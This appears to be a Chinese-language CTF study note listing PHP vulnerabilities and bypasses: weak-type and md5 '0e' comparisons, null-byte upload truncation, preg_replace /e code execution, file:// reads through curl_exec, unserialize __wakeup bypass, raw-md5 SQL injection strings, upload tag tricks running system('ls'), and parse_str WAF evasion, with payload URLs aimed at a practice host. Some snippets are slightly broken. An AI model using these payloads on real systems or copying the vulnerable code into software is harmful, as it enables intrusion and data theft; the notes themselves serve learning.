 # php漏洞



## php弱类型



### 字符串==true为真

### "0exxxx"会被看做数字



## 函数利用

### move_uploaded_file %00截断

1、漏洞影响版本必须在5.4.x<= 5.4.39, 5.5.x<= 5.5.23, 5.6.x <= 5.6.7

2.move_uploaded_file($_FILES['x']['tmp_name'],"/tmp/test.php\x00.jpg")



### preg_replace_callback

```php
<?php
preg_replace_callback("/.*/e",'eval()','aaaa');
?>
```



利用条件:php版本=7

### eval利用

#### 被双引号包围



### curl_exec

#### 利用file://伪协议可以任意文件读取

漏洞代码

```php
function test() {
    	$a=$_GET['a']
        $c = curl_init();
        curl_setopt($c, CURLOPT_URL, $this->a);
        curl_setopt($c, CURLOPT_RETURNTRANSFER, 1);
        curl_setopt($c, CURLOPT_CONNECTTIMEOUT, 5);
        echo curl_exec($c);
    }
```

利用方式http://47.97.253.115:10006/?z=file://localhost/flag



#### 利用二次url编码绕过字符串限制

因为curl_exec会对url进行解码,所以我们可以通过对传递字符串二次编码,来绕过字符串限制

漏洞代码

```php
<?php

class Hello {
    protected $a;

    function test() {
        $b = strpos($this->a, 'flag');
        if($b) {
            die("Bye!");
        }
        $c = curl_init();
        curl_setopt($c, CURLOPT_URL, $this->a);
        curl_setopt($c, CURLOPT_RETURNTRANSFER, 1);
        curl_setopt($c, CURLOPT_CONNECTTIMEOUT, 5);
        echo curl_exec($c);
    }
    
    function __destruct(){
        $this->test();
    }
}

if (isset($_GET["z"])) {
    unserialize($_GET["z"]);
} else {
    highlight_file(__FILE__);
}
```

payload:

http://47.97.253.115:10006/?z=O:5:%22Hello%22:1:{s:1:%22a%22;s:23:%22file://localhost/%2566lag%22;}

这里有一些坑就是:

1. 你不知道flag文件在哪个文件夹,结果最后就在根目录。。
2. 因为是二次编码所以要注意字符串的长度

### preg_replace()

preg_replace漏洞触发有两个前提：

1. 第一个参数需要e标识符，有了它可以执行第二个参数的命令

2. 第一个参数需要在第三个参数中的中有匹配，不然echo会返回第三个参数而不执行命令，举个例子：

3. php版本<7

4. ```php
   echo preg_replace('/test/e', 'phpinfo()', 'just test');
   //这样是可以执行命令的
   
   echo preg_replace('/test/e', 'phpinfo()', 'just tesxt'); 
   echo preg_replace('/tesxt/e', 'phpinfo()', 'just test'); 
   //这两种没有匹配上，所以返回值是第三个参数，不能执行命令
   ```

## 函数绕过

### 字符串==字符串

字符串==true恒为真

### array_search()

当php的array_search试图在数字数组中寻找字符串时，会把字符串变成0

### PHP反序列化绕过__wakeup方法

当反序列化字符串中，表示属性个数的值大于真实属性个数时，会跳过 **__wakeup** 函数的执行。

```php
<?php
    class xctf{ 
	public $flag = '111';
    public function __wakeup(){
	exit('bad requests');
		}
	}
	echo unserialize($_GET['code']);
    ?>
```

这题关键是绕过__wakeup()函数

**当反序列化字符串中，表示属性个数的值大于真实属性个数时**

正常:?code=O:**1**:"xctf":3:{s:4:"flag";s:3:"111";}

payload:?code=O:**4**:"xctf":3:{s:4:"flag";s:3:"111";}

### md5相关

1. md5和弱类型比较的联合利用

   ```php
   if($_GET['password']!='xxxxxx'&&md5('xxxxxx')==md5($_GET['password']))
       echo $flag;
   ```

   (0-9)e开头字符串会被认为是数字

   所以md5加密后为0e开头的字符串都相等

2. ```php
   "select * from `admin` where password='".md5($pass,true)."'"
   ```
md5($var,true)会返回一个原始的二进制数据，某些数据会被当成字符串
   
   > raw MD5 hashes are dangerous in SQL statements because they can contain characters with special meaning to MySQL(原始值会包含mysql中的特殊字符，因此很危险）。
   
   特殊字符串:
   
   >129581926211651571912466741651878684928
   >ffifdyop



### strcmp

- 利用条件：
适用于5.3之前版本的php
- 接收到非字符串类型的变量会报错，并返回0

## 文件包含漏洞

### php伪协议

### 配合文件上传的漏洞

- 文件上传后缀名绕过看web杂项

- 文件内容被更换

  - 如<?php ?>中的<?和?>被替换，可以用<script>标签绕过

  ```php+HTML
  <script langulage=php>
  system("ls");
  </script>
  ```

  -    <? echo 'this is the simplest, an SGML processing instruction'; ?>
        <?= expression ?> This is a shortcut for "<? echo expression ?>"

  ​        利用条件：php.ini 配置文件中的指令 [short_open_tag](https://www.php.net/manual/zh/ini.core.php#ini.short-open-tag) 打开后才可用

  -  <% echo 'You may optionally use ASP-style tags'; %>
        <%= $variable; # This is a shortcut for "<% echo . . ." %>  

      利用条件：php.ini 配置文件中的指令 [asp_tags](https://www.php.net/manual/zh/ini.core.php#ini.asp-tags) 打开后才可用。

## 杂

### '0xaa'可以被理解为数字(php7之前的版本)
所以'0xccccccccc'='54975581388'

### PHP解析字符串函数parse_str的特性

PHP将查询字符串(在URL或正文中)转换为$_GET或$_POST中的关联数组。例如:/ ?foo=bar被转换为Array([foo] => "bar")。查询字符串解析过程使用下划线删除或替换参数名称中的某些字符。例如/?%20news[id%00=42被转换为Array([news_id] => 42)。如果IDS / IPS或WAF在news_id参数中有一个用于阻止或记录非数字值的规则，则可以通过滥用此解析过程来绕过它，例如：/news.php?%20news[id%00=42"+AND+1=0–，在PHP中，%20news[id%00中的参数名称的值将存储到$_GET["news_id"]。

PHP需要将所有参数转换为一个有效的变量名，所以当解析查询字符串时，它主要做两件事:

1.删除初始空格；

2.将一些字符转换为下划线(包括空格)。

![](http://ww1.sinaimg.cn/large/006pWR9agy1g5zidv6umyj30rv0kbae4.jpg)

## 程序猿可能做的傻事

### header('Location: ./?failed=1');后面没加exit()

后面的代码还会执行



